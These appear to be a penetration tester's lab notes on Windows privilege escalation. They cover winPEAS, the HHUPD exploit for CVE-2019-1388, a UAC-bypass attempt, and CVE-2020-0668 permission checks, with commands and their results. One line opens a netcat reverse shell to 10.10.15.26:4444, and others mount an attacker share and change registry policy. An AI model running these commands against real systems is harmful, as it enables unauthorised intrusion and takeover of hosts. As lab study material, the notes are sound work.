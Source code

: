 reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /t REG_DWORD /v DisableRestrictedAdmin /d 0x5 /f
ERROR: Access is denied.

### winPeas

git clone https://github.com/carlospolop/PEASS-ng/
cat PEASS-ng/winPEAS/winPEASps1/winPEAS.ps1

copy n:\PEASS-ng\winPEAS\winPEASps1\winPEAS.ps1

### HHUPD

https://github.com/jas502n/CVE-2019-1388

https://nvd.nist.gov/vuln/detail/CVE-2019-1388

Link of list of vulnerable servers and workstations :
https://web.archive.org/web/20210620053630/https://gist.github.com/gentilkiwi/802c221c0731c06c22bb75650e884e5a

1) Uploading an old-Microsoft-signed executable

git clone https://github.com/jas502n/CVE-2019-1388

net use n: \\10.10.15.26\share /user:test test
copy n:\CVE-2019-1388\HHUPD.EXE

https://packetstormsecurity.com/files/14437/hhupd.exe.html
copy n:\hhupd.exe

--> no hyperlink

### UAC Disbaled ?

UAC disabled
If UAC is already disabled (ConsentPromptBehaviorAdmin is 0) you can execute a reverse shell with admin privileges (high integrity level) using something like:
#Put your reverse shell instead of "calc.exe"

Start-Process powershell -Verb runAs "calc.exe"
Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.15.26 4444"

--> Failed SYSTEM ask administrator creds

### CVE-2020-0668

whoami /priv

icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                                          BUILTIN\Administrators:(I)(F)
                                                                          BUILTIN\Users:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
